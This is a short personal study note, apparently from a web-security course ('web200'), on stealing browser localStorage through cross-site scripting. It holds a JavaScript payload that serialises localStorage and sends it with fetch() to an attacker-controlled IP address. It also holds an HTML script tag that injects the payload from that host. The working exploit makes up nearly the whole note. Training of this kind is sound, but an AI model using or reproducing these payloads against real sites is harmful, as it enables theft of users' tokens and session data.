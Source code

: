 ```yaml
---
tags:
  - xss
---
```

# Stealing local storage XSS

How use external payload see here: [[2023042721181010 XSS external JS payload]]#web200 #XSS 
## Payload
```js
ip = '192.168.49.55';
let data = JSON.stringify(localStorage);
let encodedData = encodeURIComponent(data);
fetch("http://" + ip + "/localStorage?data=" + encodedData);
```

## Inject payload 
```html
<script src='http://192.168.49.55/xss.js'></script>
```

## References
1. web200.Cross-Site Scripting Exploitation and Case Study.Stealing Local secrets